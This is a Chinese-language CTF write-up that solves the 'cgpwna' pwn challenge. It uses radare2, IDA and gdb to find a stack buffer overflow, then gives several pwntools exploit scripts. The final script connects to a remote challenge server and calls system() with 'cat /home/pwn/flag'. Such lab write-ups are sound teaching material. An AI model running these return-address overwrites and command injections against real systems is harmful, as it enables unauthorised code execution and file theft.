# 南邮pwn题：cgpwna


**回忆那些年学pwn踩过的坑**

忍不住泪如雨下


### 1、读题并下载文件



这道题读出的信息，有IP：182.254.217.142    PORT：10001

然后flag存放位置是在/home/pwn/flag

那么按道理就是，我们使用远程连接**182.254.217.142:10001**

然后执行命令

```
cat /home/pwn/flag
```

接下来问题就是怎么打了


### 2、拿到文件cgpwna

首先就是查壳并确认是32还是64位的程序：



确认是32位程序，并且没有混淆函数


### 3、分析函数

**分析函数使用工具：Radare2、IDA7.0**

使用IDA7.0查看程序，并获取程序详情，然后直接看使用的点



使用F5查看几个关键函数的伪代码：

pwnme()：



menu()：



message()：



main：



然后看程序流程



可以分析出判断条件是choice为49时候程序退出，退出前会输出“bye”，否则就会跳入message()函数中


接下来用r2分析看看

```
->r2 cgpwna
┌─[kxh@parrot]─[~/Documents]
└──╼ $r2 cgpwna
[0x08048420]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x08048420]> afl
0x08048420    1 33           entry0
0x08048410    1 6            sym.imp.__libc_start_main
0x08048460    4 42           sym.deregister_tm_clones
0x08048490    4 55           sym.register_tm_clones
0x080484d0    3 30           entry.fini0
0x080484f0    4 45   -> 44   entry.init0
0x080486e0    1 2            sym.__libc_csu_fini
0x0804851d    1 20           sym.pwnme
0x080483f0    1 6            sym.imp.system
0x08048569    1 113          sym.message
0x080483e0    1 6            sym.imp.puts
0x080483d0    1 6            sym.imp.fgets
0x08048450    1 4            sym.__x86.get_pc_thunk.bx
0x08048531    1 56           sym.menu
0x080486e4    1 20           sym._fini
0x08048670    4 97           sym.__libc_csu_init
0x080485da    5 145          main
0x080483c0    1 6            sym.imp.setbuf
0x08048384    3 35           sym._init
0x08048400    1 6            loc.imp.__gmon_start
[0x08048420]>s main        //或者自己想要获取的函数
[0x08048420]>VV
```



这样可以方便在linux使用gdb调试

### 4、执行程序：



可以看到，程序执行流程

分为三段输入，第一次是choice，第二次是message，第三次是name

这时候盲测，发现程序其实并未循环，而是直接bye后退出

那么就是说明，存在溢出了

溢出把我们原先输入的高地址数据给压下去了

而这时候需要直接用调试才知道程序流程怎么走


### 5、gdb调试程序

使用gdb调试程序过程中，尽量使数据变大，才可以看到栈压到哪里去了，当然，第一次的时候可以为了分析流程而选择正常数据

这里把三次输入点都记录下来，然后一个一个测：

发现第一次输入的无关紧要，虽然也可以溢出

而第二次的会影响到第三次输入的get函数数据长度n

执行：

```
┌─[kxh@parrot]─[~/Documents]
└──╼ $gdb cgpwna 
GNU gdb (Debian 8.3.1-1) 8.3.1
Copyright (C) 2019 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 181 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from cgpwna...
(No debugging symbols found in cgpwna)
pwndbg> b main
Breakpoint 1 at 0x80485dd
pwndbg> r
```



可以看到输入的数据长度n是**0x3c（就是60）**

而起始地址是**0x804a080**

这时候直接输入60个‘a’



看到这个就知道可以输入多少个a了

一共是57个a

接下来就是继续执行看到第二个get：



n长度变化了，也就是说明第一次执行的溢出后干扰了第二次输入的长度n

然后记录一下第二次起始点**0xffffd238**指向地址**0xf7fa1004**的值

也就是说第二次输入的进入了**0xf7fa1004**当中

那么就是大量输入数据‘1’

这里长度是aaaa，按道理不会输入那么长：



然后继续走，看看call的点和ret的点的异常：

发现异常点在ret以后跳跃的值



而执行了这个段是在**0xffffd26c**

那么头绪就有了

### 6、获得offset

把记录的获取的位置，计算**offset=0xffffd26c-0xffffd238=34**

可见完整是高地址低地址压向高地址



寻关键地址，首先选中pwnme()函数的起始地址：


获得地址为：**0x804851d** 


### 7、写exp

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('a'*57)
sleep(1)
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804851d))
k.interactive()
```

**若是程序错误或者问题**

**使用raw_input()**

**使得程序暂停，然后用gdb命令：attach pid**

**然后使用fin进入程序点，使用ni跟踪执行**



成功进入了pwnme()函数

就是说明成功执行

### 8、进入pwnme()函数分析

接下来就是需要使用到raw_input()

然后执行python文件后，用gdb追踪pid，然后再回到执行python文件的命令中回车

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('a'*57)
sleep(1)
raw_input()                 #添加调试点
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804851d))
k.interactive()
```



然后回车后用fin不断执行跳跃进入源程序



进入到pwnme函数看到system函数：



查看system函数的地方怎么输出的echo hello



这里看到，system是调用了esp寄存器

而esp寄存器中的值是**0xffa90054**

而0xffa90054指向了地址**0x8048700**


### 9、推理

加入我再ret的时候直接调到system的值即**0x804852A**，那么esp必须指向一个地址，这个地址是执行系统函数的

这么一来exp就可以改了

我可以让传入的esp改的话是必须在不断调试下发现，竟然在输入的函数后面，而调试过程就是这样的：



然后确定位置是**0xffac7c70**开始，然后就是3的个数竟然是**100**，因此直接在后面拼接第二次输入的地方，其中用**\x00**就是截断执行数据

第二次输入函数的时候s的起始地址是**0x804a080**（前面有讲）

exp修改为：

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('ls'+'\x00'+'a'*(57-2-4))
sleep(1)
raw_input()                 #添加调试点
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804852a)+p32(0x804a080))
k.interactive()
```

这里如果不需要调试点可以关闭

执行结果为：



竟然直接getshell了

那么就是打远程了。

### 10、写出最终版本exp

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=remote('182.254.217.142',10001)
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('cat /home/pwn/flag'+'\x00'+'a'*(57-18-4))
sleep(1)
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804852a)+p32(0x804a080))
k.interactive()
```

